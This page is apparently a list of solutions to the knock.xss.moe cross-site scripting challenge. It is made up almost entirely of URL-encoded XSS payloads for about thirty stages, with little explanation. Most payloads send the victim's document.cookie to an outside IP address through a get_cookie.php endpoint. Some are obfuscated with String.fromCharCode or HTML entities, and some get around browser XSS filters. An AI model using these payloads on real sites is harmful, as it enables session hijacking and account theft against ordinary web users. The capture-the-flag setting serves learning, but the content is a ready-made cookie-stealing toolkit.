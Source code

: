 All solution
Ranking #41
{% highlight html linenos %}
stage3:
http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=%22%3E%3Cscript%20language%3D%22JavaScript%22%3Edocument.location%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%3D%27%2bdocument.cookie%3B%3C%2fscript%3E

stage5:
</textarea><script>alert('xxx')</script>

stage6:
</xmp><script>alert('xxx')</script>

stage7:
http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=%22%20onfocus%3D%22%20location.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%22%20autofocus%3D%22

stage8

stage9:
http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=%00%00%20autofocus%20onfocus%3Dlocation.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie


stage10:
http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=javascript:document.location.href='http://118.69.135.163/get_cookie.php?cookie'+document.cookie

stage11:
<iframe src="XSS"></iframe>
http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=javascript%3Adocument.location.href%3D%22http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%22%2bdocument.cookie%3B

stage12:

javascript:window.open(`http://xxxx/?x=`+document.cookie)


stage13:
<script language=javascript>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 46, 104, 114, 101, 102, 61, 39, 104, 116, 116, 112, 58, 47, 47, 103, 111, 111, 103, 108, 101, 46, 99, 111, 109, 39 ))</script>


stage 14:
http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?document.domain=%22knock.xss.moe%22;eval(String.fromCharCode(119,%20105,%20110,%20100,%20111,%20119,%2046,%20111,%20112,%20101,%20110,%2040,%2034,%20104,%20116,%20116,%20112,%2058,%2047,%2047,%2049,%2049,%2056,%2046,%2054,%2057,%2046,%2049,%2051,%2053,%2046,%2049,%2054,%2051,%2047,%20103,%20101,%20116,%2095,%2099,%20111,%20111,%20107,%20105,%20101,%2046,%20112,%20104,%20112,%2063,%2099,%20111,%20111,%20107,%20105,%20101,%2061,%2034,%2043,%20112,%2097,%20114,%20101,%20110,%20116,%2046,%20100,%20111,%2099,%20117,%20109,%20101,%20110,%20116,%2046,%2099,%20111,%20111,%20107,%20105,%20101,%2041))

stage 15:
http://e3bcee011cad77ba066ca7c2ad2884372aec9566.knock.xss.moe/?q=%3Cimg%20src%3D1%20onerror%3Dwindow.location.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3B%3E


stage 17:
http://34a131df991487bf58d3df0a85e247d396fb93a0.knock.xss.moe/?q=javascript%3Alocation.href%3D%22http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%3D%22%2bdocument.cookie


stage 19:
<body onload="alert('XXX, &#039; ,0,window.open(&#039;http://118.69.135.163/get_cookie.php?cookie&#039; document.cookie));"//')">
http://224d0c5677307d743ba90c8f81e42f5be648cd97.knock.xss.moe/?q=1%27%2C0%2Cwindow.open%28%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%29%29%3B%2f%2f


stage 21:
X-XSS-Protection:1; mode=block
http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=%3CscripT%3Edocument.locascripttion.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3C%2fsCripT%3E


stage 22:
http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f1984268195%2f%3Fx%3D%22%2bdocument.cookie%29%3E


Local file:
<script>
window.name = "location.href='http://xxxx/?'+document.cookie";
location.href = "http://target.knock.xss.moe/?q=%3Csvg/onload=eval(name)%3E";
</script>

stage 23 & 24:
http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=<svg/onload=window.open("//118.69.135.163")>

stage 25:
http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/?q=%3Ciframe%20src%3D%27%2f%2f118.69.135.163%27%3E

stage 26:
http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/?q=%3CIMG%20SRC%3D1%20onerror%3D%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23111%3B%26%23112%3B%26%23101%3B%26%23110%3B%26%2340%3B%26%2334%3B%26%2347%3B%26%2347%3B%26%2349%3B%26%2349%3B%26%2356%3B%26%2346%3B%26%2354%3B%26%2357%3B%26%2346%3B%26%2349%3B%26%2351%3B%26%2353%3B%26%2346%3B%26%2349%3B%26%2354%3B%26%2351%3B%26%2347%3B%26%23103%3B%26%23101%3B%26%23116%3B%26%2395%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2346%3B%26%23112%3B%26%23104%3B%26%23112%3B%26%2363%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2334%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2341%3B%3E



stage 27:
http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%27location%27%5D%3D%22http%3A%2f%2f%2f1984268195%2f%3F%22%2bdocument%5B%27cookie%27%5D%3

stage 28:
http://02f6f47ddaa7b22137a74843f2c4f1ac915dda3b.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D%3E

stage 29:
http://a4bf8393a4159b94aa4b84e9a134d5e6140f3c34.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D


stage 30:

http://ebf510ac2d79576cd5b7d45412eaf3eed1781bd0.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D

stage 31:
http://bb84607f02113a22396438c9a67e4c5abdfd6561.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 32:
http://859c559a54a1e9b761f8dae102af5edb2ab44215.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 33:
http://b236561a32729676d1ec2231e8726a0b5ee5bf57.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 34:
http://[stage34]/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

{% endhighlight %}

Thanks @ml and @tsu for sharing!
